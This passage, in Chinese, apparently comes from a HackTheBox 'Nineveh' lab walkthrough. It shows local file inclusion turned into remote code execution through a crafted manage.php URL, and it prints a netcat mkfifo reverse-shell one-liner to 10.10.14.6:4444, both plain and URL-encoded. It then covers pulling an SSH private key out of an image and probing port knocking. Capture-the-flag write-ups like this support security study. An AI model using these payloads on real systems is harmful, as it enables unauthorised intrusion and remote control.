 - hack.php无法被执行成功，由于LFI漏洞，数据库名字必须包含ninevehNotes, 所以将数据库重命名为ninevehNotes.php

![image-20211019022747885](http://cdn.mxrblog.cn/image-20211019022747885.png)

- 执行：

![image-20211019032834799](http://cdn.mxrblog.cn/image-20211019032834799.png)

- 我们可以远程执行代码！现在让我们尝试一个反向 shell one liner 连接回我们的4444端口（我们已经准备好用 nc -lvnp 命令监听它。）但是要这样做，我们首先需要对我们的反向 shell one liner 进行 url 编码：

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.6 4444 >/tmp/f
rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.6+4444+>/tmp/f
```

- 在网页上执行以下代码

`http://10.10.10.43/department/manage.php?notes=/var/tmp/ninevehNotes.php&cmd=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2%3E%261|nc+10.10.14.6+4444+%3E/tmp/f`

![image-20211019032955471](http://cdn.mxrblog.cn/image-20211019032955471.png)



- 我们需要提权，并且知道用户amrois

![image-20211019033350059](http://cdn.mxrblog.cn/image-20211019033350059.png)

#### 图片处理（2）

- 查看子目录/secure_notes下是什么

![image-20211019013147990](http://cdn.mxrblog.cn/image-20211019013147990.png)

- 一张图像，保存后使用steghide查看是否有密码隐藏
- 无结果

![image-20211019013451148](http://cdn.mxrblog.cn/image-20211019013451148.png)

- 再次使用strings查看图片

![image-20211019013618492](http://cdn.mxrblog.cn/image-20211019013618492.png)

- 得到某个用户的私匙，创建文件，并将其保存

![image-20211019014030305](http://cdn.mxrblog.cn/image-20211019014030305.png)

### 提权

- 有了id_rsa 和用户名，尝试ssh登录

- 由于ssh端口是关闭的，看看是不是系统开启了knockd服务

![image-20211019035855267](http://cdn.mxrblog.cn/image-20211019035855267.png)

- nmap 依次打开这几个端口

